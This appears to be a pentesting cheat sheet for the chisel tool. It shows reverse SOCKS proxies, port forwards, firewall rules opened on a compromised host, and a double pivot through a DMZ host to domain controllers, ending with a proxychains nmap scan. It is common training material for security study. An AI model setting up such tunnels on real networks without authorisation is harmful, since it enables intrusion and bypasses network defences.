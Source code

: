 ### Reverse SOCKS Proxy
```shell
chisel server -p 1335 --reverse &
```

```shell
./chisel client 192.168.45.237:1335 R:9999:socks &
```
```powershell
Start-Job {.\chisel.exe client 192.168.45.237:1335 R:9999:socks}
Start /B chisel.exe client 192.168.45.233:8080 R:9999:socks &
```

### Port Forward
```shell
.\chisel.exe client 192.168.45.237:1335 8080:127.0.0.1:80
```

### Local Port Forward
A remote port forward is when we connect back from a compromised target to create the forward.
Start chisel server on compromised host
```powershell
./chisel_windows.exe server --port 54321 --reverse --socks5
netsh advfirewall firewall add rule name="Chisel-Adot8" dir=in action=allow protocol=tcp localport=15997
```
OR 
```bash
firewall-cmd --zone=public --add-port 15997/tcp
```
Connect to target
```shell
chisel client 192.168.194.95:54321 127.0.0.1:9999:127.0.0.1:3306
```
Everything we send to 127.0.0.1:9999 will get sent to the target on 3306

### Double Pivot
Kali -> NIX01(DMZ) -> DC01 -> DC02
- NIX01 and DC01 - 172.16.1.0/24
- DC02 - 172.16.2.0/24

On our machine
```shell
./chisel_linux server --socks5 -p 9001 --reverse
```
Edit proxychains config and comment out `socks 127.0.0.1 9050`
```shell
socks5 127.0.0.1 9999
socks5 127.0.0.1 8888
```
On NIX01
```shell
./chisel client 10.10.14.10:9001 R:9999:socks &
./chisel server  -p 9002 --reverse --socks5 &
```
On DC01
```powershell
chisel.exe client 172.16.1.100:9002 R:8888:socks
```
Scan
```bash
proxychains -q nmap -p445 -Pn -v 172.16.2.5
```